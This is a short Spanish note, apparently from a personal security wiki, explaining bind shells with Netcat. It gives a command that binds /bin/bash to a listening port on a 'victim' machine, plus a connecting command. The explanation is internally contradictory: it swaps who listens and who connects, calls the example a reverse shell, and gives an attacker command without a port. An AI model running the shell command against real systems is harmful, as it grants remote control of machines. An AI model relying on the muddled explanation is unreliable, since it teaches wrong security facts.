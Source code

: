 Una "bind shell" es otra técnica utilizada en el ámbito de la ciberseguridad y la piratería informática. A diferencia de la "[[Reverse Shell]]", donde la víctima inicia la conexión hacia el atacante, en una "bind shell" es el atacante quien escucha en un puerto específico y espera a que la víctima se conecte a él.

En una "bind shell", un código malicioso se ejecuta en un sistema comprometido y espera activamente por una conexión entrante desde un dispositivo controlado por el atacante. Una vez que la víctima establece la conexión con el atacante, este último obtiene un control remoto sobre el sistema comprometido, pudiendo enviar comandos al mismo y recibir respuestas.

En el siguiente ejemplo se muestra (con [[Netcat]] la forma de una reverse shell)

**Máquina victima**

Una vez se tenga acceso a la máquina víctima se ingresa el siguiente comando para ponerse en escucha y que la persona que se conecte pueda tener una consola:

```ncat -nlvp 443 -e /bin/bash```

**Máquina del atacante**

Primero el atacante se pone en escucha con el siguiente comando en un [[puerto]] en específico.

```nc 198.168.0.1```

